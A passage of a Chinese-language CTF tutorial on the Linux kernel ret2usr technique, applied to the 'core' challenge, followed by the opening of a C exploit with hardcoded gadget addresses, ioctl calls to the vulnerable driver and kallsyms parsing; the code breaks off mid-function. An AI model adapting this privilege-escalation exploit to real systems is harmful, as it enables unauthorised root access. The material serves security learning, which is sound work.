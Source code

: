# ret2usr

在上一篇文章中，我们借助一道kernel pwn的入门题——core完成了kernel ROP的学习，本系列按照[与上一篇文章相同的资料](https://arttnba3.cn/2021/03/03/NOTE-0X03-LINUX-KERNEL-PWN-PART-II/#%E4%BE%8B%E9%A2%98%EF%BC%9A%E5%BC%BA%E7%BD%91%E6%9D%AF2018-core-1)的顺序继续学习与复现。本篇文章学习的漏洞技术为：ret2usr

仍然使用上一篇文章的例题，没有开启SMAP/SMEP，有从内核直接执行用户空间代码的可能性。我们已经知道在本题中能够很容易地获取到两个关键函数的地址，我们在用户态写一个调用提权函数的代码片段，但是不在用户态执行，而是将其插入到ROP链中由内核来执行，与上一题的效果是相同的。只需要对上一题的代码进行一些部分修改即可。

exp:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

unsigned long long commit_creds = 0, prepare_kernel_cred = 0;	// address of to key function
const unsigned long long commit_creds_base = 0xFFFFFFFF8109C8E0;

const unsigned long long swapgs_popfq_ret = 0xffffffff81a012da;
const unsigned long long iretq = 0xFFFFFFFF81A00987;

int fd = 0;	// file pointer of process 'core'

void saveStatus();
void get_function_address();
void core_read(char* buf);
void change_off(int off);
void core_copy_func(unsigned long long nbytes);
void print_binary(char* buf, int length);
void rise_cred();
void shell();

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void core_read(char* buf){
	ioctl(fd, 0x6677889B, buf);
}

void change_off(int off){
	ioctl(fd, 0x6677889C, off);
}

void core_copy_func(unsigned long long nbytes){
	ioctl(fd, 0x6677889A, nbytes);
}

// This function is used to get the addresses of two key functions from /tmp/kallsyms
void get_function_address(){
	FILE* sym_table = fopen("/tmp/kallsyms", "r");	// including all address of kernel functions
```